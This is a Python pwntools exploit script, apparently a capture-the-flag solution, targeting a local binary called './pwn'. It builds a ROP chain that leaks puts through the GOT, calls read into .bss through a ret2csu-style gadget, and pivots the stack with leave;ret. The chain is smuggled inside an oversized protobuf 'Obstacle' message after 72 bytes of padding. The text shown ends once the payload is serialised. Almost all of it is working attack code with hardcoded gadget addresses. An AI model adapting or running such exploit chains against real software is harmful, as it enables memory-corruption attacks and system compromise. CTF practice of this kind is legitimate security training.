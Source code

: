 ```
uu32 = lambda data: u32(data.ljust(4, '\0'))
uu64 = lambda data: u64(data.ljust(8, '\0'))
leak = lambda name, addr: log.success('{} = {:#x}'.format(name, addr))
 
 
 
if __name__ == '__main__':
    pwn_arch ='amd64'
    duchao_pwn_script.init_pwn_linux(pwn_arch)
    pwnfile = './pwn'
    ip_port = '192.168.30.146:10002'
    __ip = ip_port.split(":")[0]
    __port = ip_port.split(":")[1]
    io = process(pwnfile)
    # io = remote(__ip, __port)
    elf = ELF(pwnfile)
    # rop = ROP(pwnfile)
    context.binary = pwnfile
    libcfile = "/lib/x86_64-linux-gnu/libc.so.6"
    libc=ELF(libcfile)
     
 
    pop_rdi_ret = 0x000000000040c693
    puts_sym=elf.sym["puts"]
    puts_got = elf.got["puts"]
    ret=0x404F84
    leave_ret = 0x00000000004051a2
    __rsi=elf.bss()+0x600
    gadget = p64(pop_rdi_ret)+p64(puts_got)+p64(puts_sym)
    rbx = 0
    rbp = 1
    r12 = 0
    r13 = __rsi
    r14 = 0x100
    r15 = elf.got["read"]
    gadget += p64(0x40C68A)+p64(rbx)+p64(rbp)+p64(r12)+p64(r13)+p64(r14)+p64(r15)
    gadget += p64(0x40C670)+p64(0xdeadbeef)+p64(rbx)+p64(__rsi)+p64(r12)+p64(r13)+p64(r14)+p64(r15)
    gadget += p64(leave_ret)
 
    print(len(gadget)//8)
    # 0x10C0
    duchao_pwn_script.dbg(io,"b *0x404F84")
    Obstacles = obstacles_pb2.Obstacles()
    Obstacle_1 = obstacles_pb2.Obstacle()
 
    Obstacle_1.type = 0
    Obstacle_1.velocity.x = 1.0
    Obstacle_1.velocity.y = 2.0
    Obstacle_1.position.x = 3.0
    Obstacle_1.position.y = 4.0
 
    Obstacle_1.msg_length = 0x100
    for i in range(17):
        Obstacle_1.msg.append(str(1).encode())
 
    payload = p64(0x8)+b"a"*72
    payload += gadget
    Obstacle_1.msg.append(payload)
    Obstacles.obstacle.append(Obstacle_1)
 
    print(len(Obstacles.SerializeToString()))
     
    payload= Obstacles.SerializeToString()
```